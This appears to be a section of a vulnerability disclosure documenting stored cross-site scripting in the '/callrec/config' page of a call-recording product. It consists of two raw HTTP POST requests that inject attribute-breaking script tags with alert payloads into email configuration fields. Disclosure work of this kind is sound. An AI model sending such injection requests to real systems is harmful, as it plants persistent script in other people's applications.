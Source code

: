 ### XSS(6) - Stored XSS in “/callrec/config” page
Request:
```
POST /callrec/config HTTP/1.1
Host: xxx.xxxxx.net
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://xxx.xxxxx.net/callrec/config.jsp?selectedModule=tools&selectedMenuId=menu_tools&selectedMenuOption=config/specified/tools/cz_zoom_callrec_tools_disk_space/view.jsp&specifiedConfiguration=disk_space
Content-type: application/x-www-form-urlencoded
Content-Length: 202
Cookie: scroolY=0; JSESSIONID=2C0E0A265B23D61CFC97E49068370C2F; m=
Connection: close

action=save&chb_69733:/VenabledEmail/value=false&chb_69734:/VenabledSNMP/value=false&txt_69735:/VemailAddress/value=asdsaddasdsadd"><script>alert('XSS')</script><&txt_69736:/VdaysLeftWhenNotify/value=20
```
![](Zoom-XSS(6)1.png)


Request:
```
POST /callrec/config HTTP/1.1
Host: xxx.xxxxx.net
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://xxx.xxxxx.net/callrec/config.jsp?selectedModule=core&selectedMenuId=menu_core&selectedMenuOption=config/specified/core/cz_zoom_callrec_core_callstorage/view.jsp&specifiedConfiguration=smtp
Content-type: application/x-www-form-urlencoded
Content-Length: 157
Cookie: scroolY=0; JSESSIONID=712211C38CA7012B06C10BB1933D5B67; m=
Connection: close

action=save&txt_75766:/VsmtpAddress/value=127.0.0.1&txt_75767:/VemailFrom/value=callrec%40xxxxx.xxxxxxx.xxxxxx"><script>alert("SMTPConf")</script><
```